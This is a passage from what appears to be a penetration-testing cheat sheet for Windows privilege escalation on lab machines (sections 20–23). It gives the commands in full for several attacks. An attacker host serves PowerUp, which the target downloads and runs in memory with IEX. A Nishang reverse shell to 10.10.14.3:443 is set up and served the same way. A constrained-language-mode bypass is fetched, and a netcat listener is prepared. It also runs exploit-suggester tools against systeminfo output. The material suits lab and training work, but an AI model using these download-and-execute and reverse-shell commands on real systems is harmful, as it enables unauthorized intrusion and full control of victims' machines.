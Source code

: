 #########################################

```bash
kali@kali: >     wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
kali@kali: >     mv PowerUp.ps1 PU.ps1
kali@kali: >     echo -e "\n\nInvoke-AllChecks" >> PU.ps1
kali@kali: > 	 pythpon3 -m http.server 80

target@10.10.10.10: >     IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PU.ps1')
```

# 20. Wesng - Vulnerability kernel founder

```bash
target@10.10.10.10: >     systeminfo  # Copy the output into kali "systeminfo.txt"

kali@kali: >     python3 wes.py ../systeminfo.txt -i "Elevation of Privilege"
```

# 21. Windows Exploit Suggester (Python script)

```bash
target@10.10.10.10: >     systeminfo  # Copy the output into kali "systeminfo.txt"

kali@kali: >     wget https://raw.githubusercontent.com/Pwnistry/Windows-Exploit-Suggester-python3/master/windows-exploit-suggester.py
kali@kali: >     python3 windows-exploit-suggester.py --update
kali@kali: >     python3 windows-exploit-suggester.py -i ../systeminfo.txt -d 2021-07-11-mssb.xls
```

# 22. CMD to PowerShell

```bash
kali@kali: > 	 git clone https://github.com/samratashok/nishang.git
kali@kali: > 	 cd Shells
kali@kali: > 	 mv Invoke-PowerShellTcp.ps1 IP.ps1
kali@kali: > 	 echo -e "\n\nInvoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 443" >> IP.ps1
kali@kali: > 	 python3 -m http.server 80

target@10.10.10.10: >     start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe -exec bypass -C "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.4:80/IP.ps1')"
target@10.10.10.10: >     start /b C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -exec bypass -C "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.4:80/IP.ps1')"
```

# 23. PSByPassCLM

```bash
# if:
# PS htb\amanda@SIZZLE Documents> $executioncontext.sessionstate.languagemode
# ConstrainedLanguage
# else:
git clone https://github.com/padovah4ck/PSByPassCLM.git
cd PSByPassCLM/PSBypassCLM/PSBypassCLM/bin/Debug
python3 -m http.server 80

# Máquina vítima
IWR -URI http://10.10.16.183/PsBypassCLM.exe -OutFile CLM.exe
dir C:\Windows\microsoft.net\framework64\  # Check last version dir
# Prepare rlwrap nc -lvnp 443
```